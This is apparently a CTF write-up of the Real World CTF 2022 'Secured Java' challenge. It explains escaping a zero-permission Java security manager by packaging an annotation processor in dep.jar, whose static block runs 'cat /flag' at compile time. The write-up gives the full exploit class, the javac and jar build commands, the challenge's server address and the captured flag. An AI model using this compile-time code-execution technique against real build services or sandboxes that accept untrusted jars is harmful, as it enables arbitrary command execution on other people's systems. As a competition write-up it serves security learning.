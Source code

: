 ```yaml
---
title: 'Secured Java - Real World CTF 2022'
permalink: /writeups/realworld2022/securedjava
---
```


> Found a way to run untrusted java code
> nc 139.224.248.65 1337

## Analysis

The challenge consists of a single python file that receives a Main.java and the dep.jar (jar containing the dependencies required for main to run). Then it compiles the Main class and runs it with the security manager and with 0 permissions on the code.

## Exploit

This is an easy challenge if you are very familiar with java's jar files. Since I wasn't it took me a while to discover the solution. The security manager won't allow us to do anything and there isn't any known ways to bypass it. Therefore, our solution can't rely on running our Main class.
However, in a jar file, you can specify a class to create other source files at compile time. Meaning that it will execute our code without the security manager, just like we needed.
All the classes that execute at compile time need to extend AbstractProcessor.

```java
import java.util.*;
import java.io.*;
import javax.lang.model.*;
import javax.lang.model.element.*;
import javax.annotation.processing.*;

public class Exploit extends AbstractProcessor{

    static {
        try{
            BufferedReader in = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cat /flag").getInputStream()));
             System.out.println(in.readLine());
        }
        catch(Exception e){
            System.err.println("Err:" + e.getMessage());

        }
    }

    // These methods needs to be defined, but doesn't matter
    // as the above static block will run before anything else
    @Override
    public synchronized void init(ProcessingEnvironment env) { }
    @Override
    public boolean process(Set<? extends TypeElement> annoations, RoundEnvironment env) { return false; }
    @Override
    public Set<String> getSupportedAnnotationTypes() { return null; }
    @Override
    public SourceVersion getSupportedSourceVersion() { return null; }
  
}
```

Above is my exploit class that will be executed at compile time. The inherited methods need to be defined to ensure that the Exploit.java compiles, but aren't necessary in the exploit since the static method will be executed before any of them. The static method simply runs cat /flag and prints it to the standard output (retrieving our flag).
We our Explooit class done, we need to create the jar file. To ensure that the class will be run at runtime, we will need to put the class' name in the file META-INF/services/javax.annotation.processing.Processor and add it to the jar. The commands I ran as are follows.

```bash
javac -cp javax.jar Exploit.java
jar cvf dep.jar META-INF Exploit.class
```

This creates the dep.jar file with the Exploit class as a service. The Main.java can have anything you won't as long as it doesn't fail while compiling.
Finnaly, all there it need to be done is to send the Main.java and dep.jar to the server and get the flag

```bash
rwctf{818dd1e92a56d1badd5234367d15d563}
An annotation processor threw an uncaught exception.
Consult the following stack trace for details.
java.lang.NullPointerException: Cannot invoke "javax.lang.model.SourceVersion.compareTo(java.lang.Enum)" because "procSourceVersion" is null
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.checkSourceVersionCompatibility(JavacProcessingEnvironment.java:765)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.<init>(JavacProcessingEnvironment.java:704)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$DiscoveredProcessors$ProcessorStateIterator.next(JavacProcessingEnvironment.java:829)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.discoverAndRunProcs(JavacProcessingEnvironment.java:925)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$Round.run(JavacProcessingEnvironment.java:1269)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.doProcessing(JavacProcessingEnvironment.java:1384)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.processAnnotations(JavaCompiler.java:1261)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.compile(JavaCompiler.java:935)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:317)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:176)
    at jdk.compiler/com.sun.tools.javac.Main.compile(Main.java:64)
    at jdk.compiler/com.sun.tools.javac.Main.main(Main.java:50)
Compiling...
Failed to compile!
```

## Final Notes

Overall it was an interesting challenge as it was my first java exploit. Also, I now understand why it had schrodinger dificulty, since it was easy and not easy at the same time (if you knew how to run code at compile time this was an easy challenge, otherwise it proved to be a litle complicated)

